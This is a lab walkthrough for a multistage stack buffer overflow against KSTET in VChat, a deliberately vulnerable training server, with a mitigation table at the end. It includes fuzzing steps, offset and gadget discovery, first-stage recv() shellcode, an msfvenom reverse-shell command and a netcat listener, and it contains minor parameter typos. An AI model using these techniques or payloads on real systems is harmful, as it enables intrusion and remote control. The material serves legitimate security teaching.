# VChat KSTET Exploit: Multistage Exploitations
> [!NOTE]
> - The following exploit and its procedures are based on an original [Blog](https://fluidattacks.com/blog/vulnserver-kstet/) from fluid attacks.
> - Disable Windows *Real-time protection* at *Virus & threat protection* -> *Virus & threat protection settings*.
> - Don't copy the *$* sign when copying and pasting a command in this tutorial.
> - Offsets may vary depending on what version of VChat was compiled, the version of the compiler used and any compiler flags applied during the compilation process.
___
<!-- MITRE link's topic may be slightly differnt -->
This exploit will use the [Multi-Stage Exploit](https://attack.mitre.org/techniques/T1104/) technique where in this case the first stage provides initial access and a jumping off point that the later stage will use to gain greater access to the underlying system. That is our first stage will be injected using an initial vulnerability in the software; in this case the VChat server. Once this initial stage has been deployed we can use it, either as an access point to deploy the final shellcode as we do here, or in a more complex scenario this may be one of many stages used to download and deploy more complex malware onto a target system through this newly created channel.

<!-- Reword and Verify -->
This kind of attack is particularly useful in environments where the initial vulnerability has constraints and limited resources available that the attacker must work within when attacking the application or service. Also in some cases this allows attackers to gain further access into a system from a non-technical initial exploit such as a phishing attacks which through user interaction first deploy a malicious application or inject shellcode into a process that later deploys a second stage allowing for access to the system.

> [!IMPORTANT]
> Please set up the Windows and Linux systems as described in [SystemSetup](./SystemSetup/README.md)!
## VChat Setup and Configuration
This section covers the compilation process, and use of the VChat Server. We include instructions for both the original VChat code which was compiled with MinGW and GCC on Windows, and the newly modified code that can be compiled with the Visual Studio C++ compiler.

### Visual Studio
1. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun) for the *essfunc* DLL.
2. Build the project, as this contains inline assembly the target DLL file must be compiled as a x86 DLL (32-bits).
3. Copy the Resulting DLL from the *Debug* folder in the [Essfunc Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun/Debug) into the *Debug* folder in the [VChat Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat/Debug)

	

4. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat) for the *VChat* EXE.
5. Build the Project, our executable will be in the *Debug* folder. You can then launch the executable!
### Mingw/GCC
Compile VChat and its dependencies if they have not already been compiled. This is done with mingw.

1. Create the essfunc object File.
	```powershell
	# Compile Essfunc Object file
	$ gcc.exe -c essfunc.c
	```
2. Create the [DLL](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) containing functions that will be used by the VChat.
	```powershell
	# Create a DLL with a static (preferred) base address of 0x62500000
	$ gcc.exe -shared -o essfunc.dll -Wl,--out-implib=libessfunc.a -Wl,--image-base=0x62500000 essfunc.o
	```
      * ```-shared -o essfunc.dll```: We create a DLL "essfunc.dll", these are equivalent to the [shared library](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) in Linux.
      * ```-Wl,--out-implib=libessfunc.a```: We tell the linker to generate generate a import library "libessfunc".a" [2].
      * ```-Wl,--image-base=0x62500000```: We specify the [Base Address](https://learn.microsoft.com/en-us/cpp/build/reference/base-base-address?view=msvc-170) as ```0x62500000``` [3].
      * ```essfunc.o```: We build the DLL based off of the object file "essfunc.o"
3. Compile the VChat application.
	```powershell
	# Compile and Link VChat
	$ gcc.exe vchat.c -o vchat.exe -lws2_32 ./libessfunc.a
	```
      * ```vchat.c```: The source file is "vchat.c".
      * ```-o vchat.exe```: The output file will be the executable "vchat.exe".
      * ```-lws2_32 ./libessfunc.a```: Link the executable against the import library "libessfunc.a", enabling it to use the DLL "essfunc.dll".

## Exploit Process
The following sections cover the process that should (Or may) be followed when performing this exploitation on the VChat application. It should be noted that the [**Dynamic Analysis**](#dynamic-analysis) section makes certain assumptions such as having access to the application binary that may not be realistic in cases where you are exploiting remote servers; however, the enumeration and exploitation of generic Windows, and Linux servers to get the binary from a remote server falls outside of the scope of this document.

### Information Collecting
We want to understand the VChat program and how it works in order to effectively exploit it. Before diving into the specific of how VChat behaves the most important information for us is the IP address of the Windows VM that runs VChat and the port number that VChat runs on.

1. **Windows** Launch the VChat application 
	* Click on the Icon in File Explorer when it is in the same directory as the essfunc dll.
2. (Optional) **Linux**: Run NMap
	```sh
	# Replace the <IP> with the IP of the machine.
	$ nmap -A <IP>
	```
   * We can think of the "-A" flag like the term aggressive as it does more than the normal scans, and is often easily detected.
   * This scan will also attempt to determine the version of the applications, this means when it encounters a non-standard application such as *VChat* it can take 30 seconds to 1.5 minuets depending on the speed of the systems involved to finish scanning. You may find the scan ```nmap <IP>``` without any flags to be quicker!
   * Example results are shown below:

		

3. **Linux**: As we can see the port ```9999``` is open, we can try accessing it using **Telnet** to send unencrypted communications
	```
	$ telnet <VChat-IP> <Port>

	# Example
	# telnet 127.0.0.1 9999
	```
   * Once you have connected, try running the ```HELP``` command, this will give us some information regarding the available commands the server processes and the arguments they take. This provides us a starting point for our [*fuzzing*](https://owasp.org/www-community/Fuzzing) work.
   * Exit with ```CTL+]```
   * An example is shown below

		

4. **Linux**: We can try a few inputs to the *KSTET* command, and see if we can get any information. Simply type *KSTET* followed by some additional input as shown below

	

	* Now, trying every possible combinations of strings would get quite tiresome, so we can use the technique of *fuzzing* to automate this process as discussed later in the exploitation section.
	* In this case we will do some fuzzing to keep the exploit sections relatively consistent, but as you can see we know crashing this command will not take much!
### Dynamic Analysis 
This phase of exploitation is where we launch the target application's binary or script and examine its behavior at runtime based on the input we provide. We want to construct the attack string and find how we cause VChat to crash. We want to construct an attack string as follows: `padding-bytes|address-to-overwrite-return-address|shell-code`, where | means concatenation. Therefore, we want to know how many padding bytes are needed.

#### Launch VChat
1. Open Immunity Debugger.

	 

    * Note that you may need to launch it as the *Administrator* this is done by right clicking the icon found in the Windows search bar or on the desktop as shown below:

	

2. Attach VChat: There are Two options! 
   1. (Optional) When the VChat is already Running 
        1. Click File -> Attach

			

		2. Select VChat 

			

   2. When VChat is not already Running -- This is the most reliable option!
        1. Click File -> Open, Navigate to VChat

			

        2. Click "Debug -> Run"

			

        3. Notice that a Terminal was opened when you clicked "Open" Now you should see the program output

			
3. Ensure that the execution in not paused, click the red arrow (Top Left)

	

#### Fuzzing
SPIKE is a C based fuzzing tool that is commonly used by professionals, it is available in [kali linux](https://www.kali.org/tools/spike/). Here is [a tutorial](http://thegreycorner.com/2010/12/25/introduction-to-fuzzing-using-spike-to.html) of the SPIKE tool by vulnserver's author [Stephen Bradshaw](http://thegreycorner.com/) in addition to [other resources](https://samsclass.info/127/proj/p18-spike.htm) for guidance. The source code is still available on [GitHub](https://github.com/guilhermeferreira/spikepp/) and still maintained on [GitLab](https://gitlab.com/kalilinux/packages/spike).

1. Open a terminal on the **Kali Linux Machine**.
2. Create a file ```KSTET.spk``` file with your favorite text editor. We will be using a SPIKE script and interpreter rather than writing out own C based fuzzer. During this walkthrough we will be using the [mousepad](https://github.com/codebrainz/mousepad) text editor though any editor may be used.
	```sh
	$ mousepad KSTET.spk
	```
	* If you do not have a GUI environment, an editor like [nano](https://www.nano-editor.org/), [vim](https://www.vim.org/) or [emacs](https://www.gnu.org/software/emacs/) could be used 
3. Define the FUZZER's parameters, we are using [SPIKE](https://www.kali.org/tools/spike/) with the ```generic_send_tcp``` interpreter for TCP based fuzzing.  
		
	```
	s_readline();
	s_string("KSTET ");
	s_string_variable("*");
	```
    * ```s_readline();```: Return the line from the server
    * ```s_string("KSTET ");```: Specifies that we start each message with the *String* KSTET
    * ```s_string_variable("*");```: Specifies a String that we will mutate over, we can set it to * to say "any" as we do in our case 
4. Use the Spike Fuzzer as shown below	
	```
	$ generic_send_tcp <VChat-IP> <Port> <SPIKE-Script> <SKIPVAR> <SKIPSTR>

	# Example 
	# generic_send_tcp 10.0.2.13 9999 KSTET.spk 0 0	
	```
    * ```<VChat-IP>```: Replace this with the IP of the target machine 
	* ```<Port>```: Replace this with the target port
	* ```<SPIKE-Script>```: Script to run through the interpreter
	* ```<SKIPVAR>```: Skip to the n'th **s_string_variable**, 0 -> (S - 1) where S is the number of variable blocks
	* ```<SKIPSTR>```: Skip to the n'th element in the array that is **s_string_variable**, they internally are an array of strings used to fuzz the target.
5. Observe the results on VChat's terminal output

	

	* Notice that VChat appears to have crashed after our second message! We can see based on the stack's status that we do not need to send a message of length *5000* as was done when the server crashed (in my case). We can see that there is around 100 bytes of space before the series of `A`s stop.
6. We can now try a few manual tests using the [`telnet`](https://linux.die.net/man/1/telnet) client as shown below. We range from a small set of four A's to near a hundred.

	

	* Here we crash the server once we have entered ninety six `A`s 

	

	* We can further see that VChat crashes once it receives sixty `A`s
7. We can see at the bottom of *Immunity Debugger* that VChat crashed due to a memory access violation. This means we likely overwrote the return address stored on the stack, leading to the EIP being loaded with an invalid address or overwrote a SEH frame. This error could have also been caused if we overwrote a local pointer that is then dereferenced... However, we know from previous exploits on VChat this is unlikely.

	

8. We can look at the comparison of the Register values before and after the fuzzing in Immunity Debugger, here we can see the EIP has been overwritten. This means we overwrote the return address on the stack! 
	* Before 

		

	* After

		

      * The best way to reproduce this is to use [exploit0.py](./SourceCode/exploit0.py).
9. We can examine the messages SPIKE was sending by examining the [tcpdump](https://www.tcpdump.org/) or [wireshark](https://www.wireshark.org/docs/wsug_html/) output.

	 

	* After capturing the packets, right click a TCP stream and click follow! This allows us to see all of the output.

		 

#### Further Analysis
1. Generate a Cyclic Pattern. We do this so we can tell *where exactly* the return address is located on the stack. We can use the *Metasploit* script [pattern_create.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb) to generate this string. By analyzing the values stored in the register which will be a subset of the generated string after a crash, we can tell where in memory the return address is stored. We can generate a string with the length of 100, as we know our program crashes with a input of less than that size; though you may use any size that will also lead to the program being crashed.
	```
	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
	```
	* This will allow us to inject a new return address at that location.
2. Modify your exploit code to reflect the [exploit1.py](./SourceCode/exploit1.py) program and run it to inject the cyclic pattern into the VChat program's stack and observe the EIP register. This exploit allows us to inject the cyclic pattern into the programs memory and determine the offset of the return address from the start of the buffer.

	 

3. Notice that the EIP register reads `41326341` in this case, we can use the [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) script to determine the address offset based on our search string's position in the pattern. 
	```
	$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 41326341
	```
	* This will return an offset as shown below, in this case the value is `66`

	 

4.  Now modify the exploit program to reflect the code in the  [exploit2.py](./SourceCode/exploit2.py) script and run the exploit against VChat. If successful we will instead ovflow the return address with a series of `B`s, as this will crash they program and leave an easily identifiable series of characters in the `EIP` register.
   * We do this to validate that we have the correct offset for the return address!

		

		* See that the EIP is a series of the value `42` that is a series of Bs. This tells us that we can write an address to that location in order to change the control flow of the target program.
		* Note: It took a few runs for this to work and update on the Immunity debugger.
5. Use the [mona.py](https://github.com/corelan/mona) python program within Immunity Debugger to determine some useful information about our target process. While the *cyclic pattern* from [exploit1.py](./SourceCode/exploit1.py) is in memory run the command ```!mona findmsp``` in the command line at the bottom of Immunity Debugger GUI. **Note:** We must have sent the cyclic pattern and it must be located in the stack frame at this time!

	

      * We can see that the offset (Discovered with [pattern_offset.rb](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb) earlier) is at the byte offset of `66`, with the ESP at the offset of `70` and has `24` bytes following it, and the EBP is at the byte offset `62`.
6. Open the `Executable Modules` window from the **views** tab in Immunity Debugger. This allows us to see the memory offsets of each dependency VChat uses. This will help inform us as to which `jmp esp` instruction to pick, since we want to avoid any *Windows dynamic libraries* since their base addresses may vary between executions and Windows systems. 

	

7. Use the command `!mona jmp -r esp -cp nonull -o` in the Immunity Debugger command line to find some `jmp esp` instructions.

	

      * The `-r esp` flag tells *mona.py* to search for the `jmp esp` instruction
      * The `-cp nonull` flag tells *mona.py* to ignore null values
      * The `-o` flag tells *mona.py* to ignore OS modules
      * We can select any output from this, 

	

      * We can see there are nine possible `jmp esp` instructions in the essfunc dll that we can use, any should work. We will use the last one `0x625014E6`
8. Modify your exploit program to reflect the [exploit3.py](./SourceCode/exploit3.py) script, we use this to verify that the 1jmp esp` instruction we chose works.

	https://github.com/DaintyJet/VChat_KSTET_Multi/assets/60448620/1a188006-7304-4b1a-bc47-b651c4c8767b

   1. Click on the black button highlighted below, and enter in the address we decided in the previous step.

		

   2. Set a breakpoint at the desired address (Right click).

		

   3. Run the [exploit3.py](./SourceCode/exploit3.py) program till an overflow occurs (See EIP/ESP and stack changes), you should be able to tell by the black text at the bottom the the screen that says `Breakpoint at ...`. We do this to verify that we can jump back to the stack where we can then navigate to the start of our shellcode and begin it's execution.

		

         * Notice that the EIP now points to an essfunc.dll address!
	4. Once the overflow occurs click the *step into* button highlighted below.

		

	5. Notice that we jump to the stack we just overflowed!

		 


Now that we have all the necessary parts for the creation of a exploit we will discuss what we have done so far (the **exploit.py** files), and how we can now expand our efforts to gain a shell in the target machine.
### Exploitation
Up until this point in time,  we have been performing [Denial of Service](https://attack.mitre.org/techniques/T0814/) (DoS) attacks. Since we simply overflowed the stack with what is effectively garbage address values (a series of `A`s, `B`s and `C`s) all we have done with our exploits is crash the VChat server directly or indirectly after our jump instructions lead to an invalid operation. Now, we have all the information necessary to control the flow of VChat's execution, allowing us to inject [Shellcode](https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/) and perform a more meaningful attack. How this exploit differs is that our shellcode will in addition to being manually generated, will serve as a fist stage, reiving the second stage of shellcode before transitioning the flow of executing to it.
#### Stack Space 
1. We know from one of our previous runs of `mona.py` (`!mona findmsp`) that we have a very limited amount of space following the overwritten return address we use in the *EIP* register. As we have done in previous exploits we will preform a short relative jump to the start of the buffer so we can use the 66 bytes that precede our return address for our first stage shell code.

   1. Set a breakpoint at the `JMP ESP` instruction as we did in the previous section.

		

   2. Run the [exploit3.py](./SourceCode/exploit3.py) program till an overflow occurs (See EIP/ESP and stack changes), you should be able to tell by the black text at the bottom the the screen that says `Breakpoint at ...`.

		

	3. Scroll to the top of the buffer, we know where the top of the buffer is since it is where the first `A` or Hex value `41` will be located. 

		

	4. Right click the address we had jumped to, and select Assemble creating the `JMP <Address>` command, where `<Address>` is replaced with the starting address of our buffer. 

		* Select Assemble 

			

		* Assemble the instruction.

			 

	5. Once you click *step* we should arrive at the start of the buffer, now right click the newly assembled instruction and select *Binary Copy*

		 

2. Now that we have the Assembly instruction for the Short Jump, place it into the python program as shown in [exploit4.py](./SourceCode/exploit4.py). This allows us to get back to the start of our buffer in order to execute the first stage shellcode.
	```python
	PAYLOAD = (
		b'KSTET ' +
		b'A' * 66 +
		# 625014E6    FFE4                        JMP ESP
		struct.pack('<L', 0x625014E6) +
		# JMP SHORT 0xb8
		b'\xeb\xb8' +
		b'C' * (26 - 2)
	)
	```
3. Restart the VChat server, and set a breakpoint at the `JMP ESP` instruction, run the [exploit4.py](./SourceCode/exploit4.py) program and ensure that it works!

	https://github.com/DaintyJet/VChat_KSTET_Multi/assets/60448620/682ab5be-aa3d-47f0-a26a-a107011919a1

#### Shell Code Generation
Due to the limited space on the stack we have to work with (66 bytes) we will be using the techniques discussed in the [Code Reuse](https://github.com/DaintyJet/VChat_GTER_CodeReuse) walkthrough. Where we will reuse code from libraries that have already been loaded by our target *VChat*. As this is a TCP server, it should have the necessary libraries and procedures loaded for us to create a first stage shellcode that loads and executes a second stage.

1. The first function that we need to use for this is the `recv(...)` function call. This has the following signature:
	```
	int recv(
		[in]  SOCKET s,
		[out] char   *buf,
		[in]  int    len,
		[in]  int    flags
	);
	```
	* `s`: This is a Socket Descriptor, which is a kind of [File Descriptor](https://learn.microsoft.com/en-us/windows/win32/fileio/file-handles) (Or Handle). This is really just an integer value that refers to the socket we will be using for communications.
	* `buf`: A pointer to the char array to place incoming data.
	* `len`: The length of the buffer.
	* `flags`: Flags used to control the behavior of the function.
2. Now to go about finding some of the information needed for our exploit we can do the following.

	https://github.com/DaintyJet/VChat_KSTET_Multi/assets/60448620/6ba1aa4f-35a1-49c4-8c06-fe3740fc98df

	1. Right click the CPU Window, and select *Search For* and then *All Intermodular Calls*.

		

	2. We can use this to look for the calls relating to the `recv(...)` function.

		

3. Once we have the call Instruction Located, we can jump to it, and set a breakpoint. This way we can extract the Address of the `recv(...)` call. Alternatively we could use the [Arwin](https://github.com/xinwenfu/arwin) program to do this.

	https://github.com/DaintyJet/VChat_KSTET_Multi/assets/60448620/4529afeb-3c8b-45b9-99db-0d23c75727de

	1. Goto the Call Address

		

	2. Set a breakpoint

		

	3. Make a Telnet Connection

		

	4. Extract the Address information from the stack

		

		* The File Descriptor used for the socket can also be extracted, however this is essentially a random number from call to call, so we cannot rely on this from exploit to exploit. So the Socket Handle information is not that useful in this case.
4. We will generate shellcode from the following shell code provided in the fluid attacks [blog](https://fluidattacks.com/blog/vulnserver-kstet/).
	```
	sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
							; overwriting our shellcode
	xor edi,edi             ; Zero out EDI (Anything XORed with itself is 0)
	socket_loop:            ; Brute Force Loop Label
	xor ebx,ebx             ; Zero out EBX (Anything XORed with itself is 0)
	push ebx                ; Push 'flags' parameter = 0 
	add bh,0x4              ; Make EBX = 0x00000400 which is  1024 bytes
	push ebx                ; Push `len` parameter, this is 1024 bytes
	mov ebx,esp             ; Move the current pointer of ESP into EBX
	add ebx,0x64            ; Point EBX the original ESP to make it the pointer to
							; where our stage-2 payload will be received
	push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
	inc edi                 ; Make EDI = EDI + 1
	push edi                ; Push socket handle `s` parameter = EDI, For each loop we increment EDI
	mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
							; null bytes. So 40252C90 is shift-left padded with 90 (NOP)
	shr eax,0x8             ; Remove the '90' byte of EAX by shifting right and
							; This makes EAX = 0040252C
	call eax                ; Call recv()
	test eax,eax            ; Check if our recv() call was successfully made
	jnz socket_loop         ; If recv() failed, jump back to the socket loop where
							; EDI will be increased to check the next socket handle
	```
5. Use [`nasm`](https://nasm.us/) on the *Kali Linux* machine to compile the assembly into the appropriate shellcode.
	1) Ensure nasm is installed, if not you will need to [install it](https://nasm.us/) and add it to the path.

		

	2) Run nasm on the target assembly, Run: `nasm -f elf32 -o shellcode.o shellcode.asm`
		* `nasm`: Netwide Assembler, assembles assembly into x86 machine code.
		* `-f elf32`: Specify the elf32 format
		* `-o shellcode.o`: Shellcode File output
		* `shellcode.asm`: Input file
6) Now we can extract the binary with a simple [shell script](./SourceCode/extract.sh).
	```sh
	for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do
		echo -n '\x'$i;
	done;
	echo
	```
	* `for i in`: For each value `$i` generated by the following command
	* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode
		* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format
		* `grep "^ "`: Extract only those lines containing assembly
		* `cut -f2`: Extract the second field, this contains the hex representation of the instructions
	* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`
	* `echo`: Print an extra line
	* **Note**: If you create this file be sure to make it executable `chmod +x extract.sh`, then you can run it using the command `./extract.sh`

	
#### Staging
1. Now we can add our first stage shell code to the [exploit5.py](./SourceCode/exploit5.py), we can then set a breakpoint at the `jmp esp` instruction we chose earlier and ensure that it works properly! This will allow us to verify the first stage of the shellcode is located where we expect it to be, and that it executes properly.

	https://github.com/DaintyJet/VChat_KSTET_Multi/assets/60448620/88e9ea66-42f0-42b4-ad1b-00e8da714aba

	1. Set a breakpoint at the `jmp esp` instruction.

		

	2. Launch the [exploit5.py](./SourceCode/exploit5.py) attack. Once you have stepped through the `jmp esp` and the short `jmp` you should see the following in your disassembler.

		

	3. Set a breakpoint on the `TEST EAX,EAX` instruction, and click run. Once you hit this click run again. Once you are satisfied this program is working correctly, as the EDI register should be incrementing; we can stop since there is no guarantee our Socket Handle will be a reasonably low number.

		

2. Generate the second stage reverse shell code using ```msfvenom``` program, and create a exploit script as shown in [exploit6.py](./SourceCode/exploit6.py) 

	```
	$ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -b '\x00x\0a\x0d'
	```
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows
    	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP 10.0.2.7
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080
    	* `EXITFUNC=thread`: Create a thread to run the payload
  	* `-f`: The output format 
    	* `python`: Format for use in python scripts.
  	* `-v`: Specify a custom variable name
    	* `SHELL`: Shell Variable name
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values 
      	* `\x00x\0a\x0d`: Null char, carriage return, and newline. 
3. The [exploit6.py](./SourceCode/exploit6.py) script first sends the Stage-1 exploit as is done in the [exploit5.py](./SourceCode/exploit5.py) script, then it waits a few seconds and send the second stage of the exploit which will attempt to reach out to our *Kali Linux* machine on port 8080. To add some resiliency to inaccurate jumps we pad the buffer the `recv(...)` call writes to which is 1024 bytes with `\x90` the NOP instruction by adding them to the start of the second stage. 

	

	* Sometimes this took a few times to work.

*Note*: Be sure to run the [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080 while running [exploit6.py](./SourceCode/exploit6.py)!

```
$ nc -l -v -p 8080
```
* `nc`: The netcat command
* `-l`: Set netcat to listen for connections 
* `v`: Verbose output 
* `p`: Set to listen on a port, in this case port 8080.


When the exploit does work, you will need to exit out of the `cmd` window manually, otherwise you will experience socket bind errors as shown below.




## Attack Mitigation Table
In this section we will discuss the effects a variety of defenses would have on *this specific attack* on the VChat server, specifically we will be discussing their effects on a buffer overflow that overwrites a return address and attempts to execute shellcode that has been written to the stack in order to receive a larger second stage shellcode loading it onto the stack and later falling into it in order to generate the reverse shell. We will make a note where that these mitigations may be bypassed.

First we will examine the effects individual defenses have on this exploit, and then we will examine the effects a combination of these defenses would have on the VChat exploit.

The mitigation we will be using in the following examination are:
* [Buffer Security Check (GS)](https://github.com/DaintyJet/VChat_Security_Cookies): Security Cookies are inserted on the stack to detect when critical data such as the base pointer, return address or arguments have been overflowed. Integrity is checked on function return.
* [Data Execution Prevention (DEP)](https://github.com/DaintyJet/VChat_DEP_Intro): Uses paged memory protection to mark all non-code (.text) sections as non-executable. This prevents shellcode on the stack or heap from being executed as an exception will be raised.
* [Address Space Layout Randomization (ASLR)](https://github.com/DaintyJet/VChat_ASLR_Intro): This mitigation makes it harder to locate where functions and datastructures are located as their region's starting address will be randomized. This is only done when the process is loaded, and if a DLL has ASLR enabled it will only have it's addresses randomized again when it is no longer in use and has been unloaded from memory.
* [SafeSEH](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates that the exception handler we would like to execute is contained in a table generated at compile time. 
* [SEHOP](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates the integrity of the SEH chain during a runtime check.
* [Control Flow Guard (CFG)](https://github.com/DaintyJet/VChat_CFG): This mitigation verifies that indirect calls or jumps are preformed to locations contained in a table generated at compile time. Examples of indirect calls or jumps include function pointers being used to call a function, or if you are using `C++` virtual functions would be considered indirect calls as you index a table of function pointers. 
* [Heap Integrity Validation](https://github.com/DaintyJet/VChat_Heap_Defense): This mitigation verifies the integrity of a heap when operations are preformed on the heap itself, such as allocations or frees of heap objects.
### Individual Defenses: VChat Exploit 
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG) | 
|-|-|-|-|-|-|-|-|
|No Effect| | | |X |X | X| X| X|
|Partial Mitigation| | |X| | | | |
|Full Mitigation|X| | | | | | | |
---
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG) |  
|-|-|-|-|-|-|-|-|
|No Effect| | |X |X |X | X| X| X|
|Partial Mitigation| | |X| | | | |
|Full Mitigation| |X| | | | | | |
---
|Mitigation Level|Defenses|
|-|-|
|No Effect|SafeSEH, SEHOP, Heap Integrity Validation, and Control Flow Guard (CFG)|
|Partial Mitigation|Address Space Layout Randomization|
|Full Mitigation|Buffer Security Checks (GS) ***or*** Data Execution Prevention (DEP)|
* `Defense: Buffer Security Check (GS)`: This mitigation strategy proves effective against stack based buffer overflows that overwrite the return address or arguments of a function. This is because the randomly generated security cookie is placed before the return address and it's integrity is validated before the return address is loaded into the `EIP` register. As the security cookie is placed before the return address in order for us to overflow the return address we would have to corrupt the security cookie allowing us to detect the overflow.
* `Defense: Data Execution Prevention (DEP)`: This mitigation strategy proves effective against stack based buffer overflows that attempt to **directly execute** shellcode located on the stack as this would raise an exception.
* `Defense: Address Space Layout Randomization (ASLR)`: This is partially effective as the address of the external functions we call are randomized. However the randomization of the addresses is only guaranteed when the DLLs have been unloaded from memory which for these common libraries is only guaranteed when the system reboots. Meaning the addresses of the external functions we leverage  and reuse will be the same until we reboot.
* `Defense: SafeSEH`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: SEHOP`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: Heap Integrity Validation`: This does not affect our exploit as we do not leverage the Windows Heap.
* `Defense: Control Flow Guard`: This does not affect our exploit as we do not leverage indirect calls or jumps. 
> [!NOTE]
> `Defense: Buffer Security Check (GS)`: If the application improperly initializes the global security cookie, or contains additional vulnerabilities that can leak values on the stack then this mitigation strategy can be bypassed.
>
> `Defense: Data Execution Prevention (DEP)`: If the attacker employs a [ROP Technique](https://github.com/DaintyJet/VChat_TRUN_ROP) then this defense can by bypassed.
>
> `Defense: Address Space Layout Randomization (ASLR)`: This defense can be bypassed if the attacker can leak addresses, or they may brute force the offsets of functions they are calling in the shellcode. This mitigation does not prevent the exploit, but simply makes it harder and less reliable.
 ### Combined Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Defense: Control Flow Guard (CFG) |
|-|-|-|-|-|-|-|-|
|Defense: Buffer Security Check (GS)|X|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**Increased Security**: ASLR increases the randomness of the generated security cookie. Additionally this makes it harder for attackers to reuse external functions loaded by the program.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. | | |
|Defense: Data Execution Prevention (DEP)|**Increased Security**: Combining two effective mitigations provides the benefits of both.|X| **Increased Security**: Combining two effective mitigations provides the benefits of both.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. | |
|Defense: Address Space Layout Randomization (ASLR)|**Increased Security**: ASLR increases the randomness of the generated security cookie. Additionally this makes it harder for attackers to reuse external functions loaded by the program..|**Increased Security**: Combining two effective mitigations provides the benefits of both.|X|**No Increase**: The SEH feature is not exploited.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited. | 

> [!NOTE] 
> We omit repetitive rows that represent the non-effective mitigation strategies as their cases are already covered.
## VChat and Exploit Code

### VChat Code
As with the previous exploits the VChat code is relatively simple in nature. Once a connection is received on port 9999, a thread is created running the  `DWORD WINAPI ConnectionHandler(LPVOID cli)` function, where `LPVOID cli` is a void pointer that holds the address of a `client_t` structure; this is a custom structure that contains the necessary connection information.  


Below is the code segment that handles the `KSTET` message type. 
```c
else if (strncmp(RecvBuf, "KSTET ", 6) == 0) {
	char* KstetBuf = malloc(100);
	strncpy(KstetBuf, RecvBuf, 100);
	memset(RecvBuf, 0, DEFAULT_BUFLEN);
	Function2(KstetBuf);
	SendResult = send(Client, "KSTET SUCCESSFUL\n", 17, 0);
}
```
The buffer we copy to is only 100 bytes, and by using the [`strncpy(char * destination, const char * source, size_t num )`](https://cplusplus.com/reference/cstring/strncpy/) function, we guarantee we will only copy 100 bytes from the source into the destination buffer. This prevents buffer overflows as we limit the number of character copied not by the size of the source, but based on something we specify. Then to prevent malicious code from existing in memory, as the original Vulnserver did not free the receiving buffer the line `memset(RecvBuf, 0, DEFAULT_BUFLEN);` zeros out the receiving buffer. Then the code calls `Function2(...)`; this is where the overflow occurs. 

```c
void Function2(char* Input) {
	char Buffer2S[60];
	strcpy(Buffer2S, Input);
}
```

Within `Function2(char* input)` we copy the buffer that possibly contains 100 bytes, into a locally declared buffer that has 60 bytes of space allocated. As we use the [`strcpy(char * destination, const char * source)`](https://cplusplus.com/reference/cstring/strcpy/) function, this copies from the source (100 bytes) to the destination buffer (60 bytes) until a null terminator is detected in the source buffer.

### Shellcode
The resulting shellcode is shown below:
```s
sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
						; overwriting our shellcode
xor edi,edi             ; Zero out EDI (Anything XORed with itself is 0)
socket_loop:            ; Brute Force Loop Label
xor ebx,ebx             ; Zero out EBX (Anything XORed with itself is 0)
push ebx                ; Push 'flags' parameter = 0 
add bh,0x4              ; Make EBX = 0x00000400 which is  1024 bytes
push ebx                ; Push `len` parameter, this is 1024 bytes
